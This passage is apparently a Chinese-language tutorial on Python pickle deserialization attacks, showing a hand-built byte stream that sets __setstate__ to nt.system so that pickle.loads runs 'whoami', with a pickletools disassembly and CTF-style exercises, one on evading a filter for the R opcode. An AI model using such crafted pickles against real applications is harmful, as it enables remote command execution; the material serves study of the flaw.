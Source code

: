 ```python
```

修改字节流：

```python
picdata=b'\x80\x04\x95K\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x08noreduce\x93)\x81}(\x8c\x04name\x8c\x05aaaaa\x8c\x03ageK\x19\x8c\x0c__setstate__\x8c\x02nt\x8c\x06system\x93ub\x8c\x06whoamib.' 
pickletools.dis(picdata) 
objr = pickle.loads(picdata) 
```

输出：   
```
0: \x80 PROTO      4    
2: \x95 FRAME      75   
11: \x8c SHORT_BINUNICODE '__main__'   
21: \x8c SHORT_BINUNICODE 'noreduce'   
31: \x93 STACK_GLOBAL   
32: )    EMPTY_TUPLE   
33: \x81 NEWOBJ   
34: }    EMPTY_DICT   
35: (    MARK   
36: \x8c     SHORT_BINUNICODE 'name'   
42: \x8c     SHORT_BINUNICODE 'aaaaa'   
49: \x8c     SHORT_BINUNICODE 'age'   
54: K        BININT1    25   
56: \x8c     SHORT_BINUNICODE '__setstate__'   
70: \x8c     SHORT_BINUNICODE 'nt'   
74: \x8c     SHORT_BINUNICODE 'system'   
82: \x93     STACK_GLOBAL   
83: u        SETITEMS   (MARK at 35)   
84: b    BUILD   
85: \x8c SHORT_BINUNICODE 'whoami'   
93: b    BUILD   
94: .    STOP highest protocol among opcodes = 4 
```

序列化字节流第一次build读取栈顶，构造好了对象，加入字符串whoami后再次build，相当于调用`noreduce.__setstate__("whoami")`

# 一些练习题

1.手动构造下述类的序列化数据
```python
class practice:
	def __init__(self):
	self.name="aaaaa"
	self.age=25
```

2.使用`__reduce.__`方法打印flag.py中的flag值

3.data可控的情况下，构造序列化数据，输出flag
```python
class demo:

	def __init__ (self):
		self.age=12
		self.study=['a','b','c']
		data=b"
		if b'R'in data:
			print("danger")
			exit()
		obj=pickle.loads(data)
		print(obj.study)
```
